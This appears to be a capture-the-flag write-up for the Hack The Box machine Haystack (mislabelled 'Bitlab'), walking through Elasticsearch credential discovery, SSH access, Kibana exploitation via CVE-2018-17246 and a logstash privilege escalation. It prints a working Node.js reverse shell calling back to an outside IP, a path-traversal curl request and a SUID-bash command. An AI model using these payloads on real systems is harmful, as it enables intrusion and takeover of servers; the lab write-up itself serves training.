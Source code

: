 # Bitlab

<h1 align="center">
  <br>
  <a href="https://www.hackthebox.eu/home/machines/profile/195"><img src="images/img.png" alt="haystack"></a>
  <br>
</h1>
<h4 align="center"> Author: <a href="https://www.hackthebox.eu/home/users/profile/32897" > JoyDragon </a> </h4>

***

__Machine IP__: 10.10.10.115

__DATE__ : 22/09/2019

__START TIME__: 6:31 PM

***

## Nmap

![](images/nmap.png)

I've got three open port. Let's start our enumeration with HTTP service.

***

## HTTP

If we open the website then we can see a simple image of `needle in a haystack`.

![](images/website.png)


![](images/strings.png)

![](images/b64-decode.png)

![](images/translate.png)

Searched `clave` on the port `9200`.

![](images/information.png)

I got some base64 strings. I decoded that:

![](images/decode.png)

`pass: spanish.is.key`

`user: security`


I tried that as SSH creds

![](images/ssh.png)

![](images/user.png)

There is something on the port `5601`

![](images/networks.png)

```bash
ssh -R 5601:127.0.0.1:5601 mzfr@10.10.14.225
```

I did remote port forwarding.

![](images/kibana.png)

https://github.com/mpgn/CVE-2018-17246

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.14.225", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

```bash
curl http://127.0.0.1:5601/api/console/api_server?"sense_version=@@SENSE_VERSION&apis=../../../.../../../../../../../../../../tmp/whatisshell.js"
```

![](images/kibana-rev.png)

Then I ran

```bash
find / -type d -user kibana
```

I got `/opt/kibana` in the output. Then I realized that if we place any logstash file in that directory it might be caught by ELK. I tried but didn't work. THen [@theart42]() said that that is the way but we need to keep the anguage spanish.

```bash
sh-4.2$ echo "Ejecutar comando : cp /bin/bash /tmp/myohmy;chmod 4755 /tmp/myohmy" > logstash_rootit
```

Then just wait

![](images/root-shell.png)
![](images/root.png)

